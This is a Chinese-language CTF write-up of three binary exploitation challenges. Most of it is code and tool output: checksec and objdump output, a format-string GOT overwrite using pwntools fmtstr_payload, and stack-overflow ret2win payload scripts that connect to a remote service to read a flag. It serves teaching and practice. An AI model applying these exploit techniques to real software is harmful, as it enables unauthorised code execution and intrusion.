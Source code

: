 # 远程攻击1
下载文件200，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析程序

首先看下文件类型

    root@kali:/workspace/reverse/18-11-3# file ./200
    ./200: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=073751d99b0de6a34ec06ccb56963079cc82bdd8, not stripped
    
是一个32位可执行文件,运行后要求输入字符串，输完回车后会打印你输入的字符串，输入过长的文本会出现栈溢出提示

    root@kali:/workspace/reverse/18-11-3# ./200
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    *** stack smashing detected ***: <unknown> terminated
    已放弃
    
这里看一下安全措施，准备用栈溢出的套路去做

    root@kali:/workspace/reverse/18-11-3# checksec ./200
    [*] '/workspace/reverse/18-11-3/200'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
有stack canary,也开了NX。我们去分析一下程序，看看怎么过stack canary<br>
首先用IDA看一下<br>
![1.png](./images/1.png)

函数列表里发现了一个read_flag函数，在main函数中直接找到了溢出点。这里我没想出怎么去过stack canary,因为想要在溢出的时候不覆盖cookie值必须要先拿到cookie值，然后再构造payload去做后面的操作。也就是说我们需要程序获取两次我们的输入。这里main函数只获取了一次输入，所以过不了。<br>

不过在分析的时候发现了，scanf函数获取我们的输入，然后直接把这个输入作为printf的参数，调用printf。这里我们尝试可以利用格式化字符串的漏洞。格式化字符串的漏洞可以让我们任意读写内存。我们可以把GOT中存储的fflush函数地址改为read_flag函数的地址，这样当程序调用printf下面的fflush函数的时候，程序实际上调用的是read_flag函数。<br>

关于格式化字符串的漏洞，可以看看这篇文章，写的很详细 [格式化字符串漏洞学习](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)
<br>

0x2 编写攻击程序
因为程序调用libc函数的顺序是jmp到PLT地址处，然后在PLT地址处jmp到GOT中存储的函数的地址,<br>
所以获取GOT中存储fflush函数的地址，方法为先获取fflush的PLT地址，然后根据PLT地址处的jmp汇编指令来获取GOT中存储fflush函数地址的地址<br>
首先获取两个函数的地址，一个是fflush的PLT地址,一个是read_flag的地址

    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep fflush
    08048420 <fflush@plt>:
    8048623:	e8 f8 fd ff ff       	call   8048420 <fflush@plt>
    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep read_flag
    0804859b <read_flag>:

通过PLT地址处的汇编指令可以看出，GOT中存储fflush函数的地址为0x804a010
    
    gdb-peda$ disass 0x8048420
    Dump of assembler code for function fflush@plt:
    0x08048420 <+0>:	jmp    DWORD PTR ds:0x804a010
    0x08048426 <+6>:	push   0x8
    0x0804842b <+11>:	jmp    0x8048400
    End of assembler dump.


我们要把数据放到我们的payload中，然后通过printf去使用我们的数据。我们需要知道我们输入的字符串被printf当作是第几个参数。通过在程序中输入%位置$x来找。

    ffroot@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%1$x
    AAAAffb73e88root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%2$x
    AAAAf7f64410root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%3$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%4$x
    AAAA0root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%5$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%6$x
    AAAA41414141root@kali:/workspace/reverse/18-11-3#
    
发现在给程序输入AAAA%6$x时，读到了我们输入的前四个A的ASCII码数值。这意味着printf把我们输入的字符串作为第6个参数。

我们可以用pwntools中的函数来实现这个攻击

    from pwn import *

    fflush=0x804a010
    read_flag=0x804859b
    payload = fmtstr_payload(6,{fflush:read_flag})

    p=remote(ip,port)
    print payload
    p.sendline(payload)
    p.interactive()

运行脚本获得flag


# 远程攻击2
下载文件100，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析

    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    段错误
    root@kali:/workspace/reverse/temp# checksec 100
    [*] '/workspace/reverse/temp/100'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
开启了NX,需要用ROP技术劫持EIP

IDA分析，main函数call了一个val_fun,该函数调用了scanf，是一个溢出点。从函数列表中找到win和read_flag函数，其中win函数call了read_flag函数。尝试劫持EIP至win函数或read_flag函数

![3.png](./images/3.png)
![4.png](./images/4.png)
![5.png](./images/5.png)
0x2 攻击

    from pwn import *

    win=0x8048488
    exit=0xf7e03a30
    payload = "A"*(0x48+4)
    payload += p32(win)
    payload += p32(exit)

    p=remote(ip,port)
    p.sendline(payload)
    p.interactive()

# 远程攻击3

    from pwn import * 
    win_func = 0x80485bd
    hint = 0x80487e0
    ret = 0x0804867a
    conn = process("memory")
    payload = "A"*23
    payload += p32(win_func)
    payload += p32(ret)#clean up     填一个不存在的内存地址会导致崩溃，拿不到flag
    payload += p32(hint)
    payload += '\n'  
    conn.send(payload)
    conn.interactive()
